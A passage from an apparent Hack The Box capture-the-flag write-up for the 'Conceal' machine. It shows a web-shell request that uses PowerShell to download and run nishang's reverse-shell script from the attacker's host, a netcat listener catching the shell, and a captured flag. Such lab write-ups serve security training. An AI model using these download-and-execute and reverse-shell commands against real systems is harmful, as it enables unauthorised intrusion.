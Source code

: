 
Getting a reverse shell. Let's use nishang.

- [`raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1`](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1) - Adding a line at the end of the script
    
    ![Untitled](../assets/img/hackthebox/Conceal/Untitled%2019.png)
    
- `http://10.10.10.116/upload/0xdf.asp?cmd=powershell iex(New-Object Net.Webclient).downloadstring('http://10.10.16.5:8080/Invoke-PowerShellTcp.ps1')`
- `nc -lvnp 443`
    
    ![Untitled](../assets/img/hackthebox/Conceal/Untitled%2020.png)
    

We got the shell.

- `flag`
    
    f59ed628c935850cc4d2f8fde8a83bef
    
    ![Untitled](../assets/img/hackthebox/Conceal/Untitled%2021.png)
    

## Priv Escalation
